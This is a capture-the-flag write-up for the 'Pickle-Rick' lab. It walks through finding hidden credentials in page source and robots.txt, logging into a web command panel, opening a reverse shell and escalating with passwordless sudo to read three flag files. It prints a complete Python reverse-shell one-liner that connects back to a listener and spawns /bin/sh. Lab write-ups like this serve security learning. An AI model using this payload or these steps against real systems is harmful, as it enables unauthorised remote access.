 # Pickle-Rick
A CTF exploiting a vulnerable web server

### Enumeration

The first step I took was going to the webpage and view the page source to see if there was any useful information. Here I found a username was hidden the source code.

Website
![website](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Webpage.png)
![page source](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Page%20Source.png)

The username shown was: R1ckRul3s
Username
![username](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Page%20Source.png)

After finding the username I ran gobuster to see if there were any additional webpages to exploit. This showed a robots.txt file that I navigated to.
![gobuster](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Gobuster.png)

The robots.txt page showed a password that I then used to login to the login.php page that was also found when I ran gobuster.
The password shown was: Wubbalubbadubdub
![robots](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Robots.png)
![login page](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Portal%20Login%20Page.png)

Once logged in I found a command line that I ran a ls -al in. Here I found that there was a file named Sup3rS3cretPickl3Ingred.txt. I tried to cat the file but ran into a message saying the command was disabled.
![ls -al](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/ls%20-al.png)
![cat file](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Trying%20to%20cat.png)

Since there was a command line, I decided that the best approach would be to set up a netcat listener and try to get a reverse shell to exploit the webpage.

The first step was to find what python is running on the system, which was python3. Then I went to pentestmonkey.net to find a python reverse shell script. The script I found was: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
I had to change python to by python3, change the ip address to my kali machine ip address, and lastly I changed the listening port to 9001.

![which python](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Which%20Python.png)

###Ingredient 1
I started a netcat listener on port 9001 and then concatenated the Sup3rS3cretPickl3Ingred.txt file. This showed that the first ingredient needed is mr. meeseek hair
![ingredient 1](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Ingredient%201.png)

###Ingredient 2
To find ingredient 2 I went to the root directory, ran an ls, went into the home directory, then into user rick, and ran a ls on the second ingredients file to find that the second ingredient is jerry tear.
![ingredient 2](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Ingredient%202.png)

###Ingredient 3
The final ingredient appears to be in the root folder, which I do not have access to. Running a sudo -l shows that all commands can be run without needing a password.
Running sudo bash -i allows me to run a super user shell to move into the root folder. Once in the root folder I was able to run a ls and cat the 3rd.txt file, showing the final ingredient is fleeb juice.
![moving to root](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Move%20to%20Root.png)
![ingredient 3](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Ingredient%203.png)

